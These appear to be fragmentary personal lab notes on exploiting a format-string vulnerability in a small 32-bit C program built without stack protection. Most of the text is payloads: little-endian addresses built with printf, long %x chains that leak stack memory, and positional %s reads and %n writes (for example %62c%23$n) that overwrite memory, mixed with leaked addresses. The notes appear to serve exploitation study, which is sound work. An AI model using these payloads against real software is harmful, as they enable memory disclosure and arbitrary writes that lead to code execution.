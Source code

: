 we convert to little endian, `\x60\xdc\xff\xff` 
and generate the payload

echo $(printf "\x60\xdc\xff\xff").%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%s > input

55555592a0

23, 28, 29


%23$s
%28$s
%29$s

```
%x.%x.%s.%x.%x
```

35595108 % 26 -> 16, i use Q


gcc -m32 -fno-stack-protector -z execstack -g -o format_string format_string.c

```
$(printf "\x60\xdc\xff\xff")%62c%23$n
```

![[Pasted image 20250828114703.png]]



echo $(printf "\xb4\xa5\x55\x56").%x.%x.%x.%x.%x.%x.%x.%x.%n > input
AAAAAAAAA %x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x




%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
%5$x


0x56556209

1448435888

1448435892


565560b0


```
%x.%x.%x.%x.%x.%x.%x.%x.%x.%s.%x.%x

```
%x.%x.%x.%x.%x.%x.%x.%x.%s.%x.%x


%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x

	%x.%x.%x.%x.%x.%x.%x.%x.%d.%x.%x
